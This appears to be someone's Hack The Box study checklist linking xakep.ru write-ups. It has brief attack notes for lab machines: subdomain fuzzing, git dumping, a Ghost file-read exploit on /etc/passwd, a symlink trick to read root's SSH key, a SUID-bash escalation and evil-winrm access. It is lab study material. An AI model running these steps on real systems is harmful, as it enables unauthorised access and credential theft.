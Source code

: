 # IT IS NECESSARY TO PASS

https://xakep.ru/2025/04/21/htb-administrator/
https://xakep.ru/2025/04/28/htb-vintage/
https://xakep.ru/2025/04/07/htb-ghost/
https://xakep.ru/2025/03/17/htb-certified/
https://xakep.ru/2025/02/17/htb-cicada/
https://xakep.ru/2024/12/16/htb-compiled/
https://xakep.ru/2025/05/26/htb-escapetwo/
https://xakep.ru/2025/06/16/htb-infiltrator/
https://xakep.ru/2025/06/30/htb-haze/


===============================================================
# READ IT
===============================================================
## Checker
https://xakep.ru/2025/06/02/htb-checker/

## Titanic
https://xakep.ru/2025/06/23/htb-titanic/

## LinkVortex
https://xakep.ru/2025/04/14/htb-linkvortex/

ffuf -u http://linkvortex.htb/ -H 'Host: FUZZ.linkvortex.htb' -w subdomains-top1million-110000.txt -t 128 -fc 301
git-dumper http://dev.linkvortex.htb/.git/
CMS Ghost
python3 ghost_fileread.py -t http://linkvortex.htb/ -u admin@linkvortex.htb -p OctopiFociPilfer45 -f /etc/passwd

ln -s /root/.ssh/id_rsa test.txt
ln -s /home/bob/test.txt test.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png

## HEAL
https://xakep.ru/2025/05/19/htb-heal/

- 22 ssh
- 80 nginx

10.10.11.46 heal.htb api.heal.htb take-survey.heal.htb

LimeSurvey, LFI
LPE - consul 8500


## UnderPass 
https://xakep.ru/2025/05/12/htb-underpass/

- 22 — служ­ба OpenSSH 8.9p1;
- 80 — веб‑сер­вер Apache 2.4.52.

UDP
- 161 SNMP 

10.10.11.48    underpass.htb
daloradius

LPE - sudoers mosh-server

## BigBang
https://xakep.ru/2025/05/05/htb-bigbang/

- 22 — служ­ба OpenSSH 8.9p1;
- 80 — веб‑сер­вер Apache 2.4.62.

10.10.11.52 bigbang.htb blog.bigbang.htb app.bigbang.htb

WordPress
wpscan --url http://blog.bigbang.htb/ -e ap --plugins-detection aggressive -t 128
wpscan --api-token K.....w --url http://blog.bigbang.htb/ -e vp -t 128

BuddyForms
CVE-2024-2961 iconv glibc

LPE - mobSF chmod 4777 /bin/bash

===============================================================

# PASSED

## HTB SUPPORT

https://xakep.ru/2022/12/19/htb-support/


53 — служ­ба DNS;
88 — служ­ба Kerberos;
135 — служ­ба уда­лен­ного вызова про­цедур (Microsoft RPC). Исполь­зует­ся для опе­раций вза­имо­дей­ствия кон­трол­лер — кон­трол­лер и кон­трол­лер — кли­ент;
139 — служ­ба сеан­сов NetBIOS, NetLogon;
389 — служ­ба LDAP;
445 — служ­ба SMB;
464 — служ­ба сме­ны пароля Kerberos;
593 (HTTP-RPC-EPMAP) — исполь­зует­ся в служ­бах DCOM и MS Exchange;
636 — LDAP с шиф­ровани­ем SSL или TLS;
3269 (LDAPS) — для дос­тупа к Global Catalog от кли­ента к кон­трол­леру через защищен­ное соеди­нение;
5985 — служ­ба уда­лен­ного управле­ния WinRM;
9389 — веб‑служ­бы AD DS.

10.10.11.174    support.htb

UserInfo.exe.zip
https://github.com/dnSpy/dnSpy
LDAP user info dump
evil-winrm -i 10.10.11.174 -u support
LPE - BloodHound